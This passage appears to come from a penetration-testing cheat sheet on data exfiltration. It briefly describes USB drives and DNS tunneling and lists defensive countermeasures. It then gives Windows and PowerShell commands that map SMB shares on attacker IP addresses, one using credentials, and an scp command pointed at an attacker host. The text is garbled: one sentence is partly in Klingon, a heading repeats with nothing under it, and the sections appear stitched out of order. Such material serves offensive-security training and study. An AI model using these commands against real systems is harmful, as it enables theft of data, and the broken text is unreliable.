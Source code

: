 #### Example: USB Drive Exfiltration

In this method, the attacker connects a USB drive to the target system and copies the desired data onto the drive. The USB drive can then be easily removed and taken off-site.

### 3. Covert Channels

Covert channels are hidden communication channels that can be used to exfiltrate data without being detected. These channels can exploit various protocols or techniques to hide the data within legitimate network traffic.

#### Example: DNS Tunneling

DNS tunneling involves encoding the stolen data within DNS queries or responses. The attacker can then use a DNS server under their control to extract the data from the network traffic.

## Countermeasures

To prevent exfiltration attacks, it is important to implement the following countermeasures:

- Implement strong network security measures, such as firewalls and intrusion detection systems.
- Regularly monitor network traffic for any suspicious activity or anomalies.
- Encrypt sensitive data to protect it from unauthorized access.
- Implement strict access controls to limit the exposure of sensitive information.
- Educate employees about the risks of exfiltration and the importance of following security best practices.

By following these countermeasures, organizations can significantly reduce the risk of data exfiltration and protect their sensitive information from falling into the wrong hands.
```bash
CMD-Wind> \\10.10.14.14\path\to\exe
CMD-Wind> net use z: \\10.10.14.14\test /user:test test #For SMB using credentials

WindPS-1> New-PSDrive -Name "new_disk" -PSProvider "FileSystem" -Root "\\10.10.14.9\kali"
WindPS-2> cd new_disk:
```
## SCP

Attacker vItlhutlh SSHd jImej.
```bash
scp <username>@<Attacker_IP>:<directory>/<filename>
```
## SSHFS

If the victim has SSH, the attacker can mount a directory from the victim to the attacker.

## SSHFS
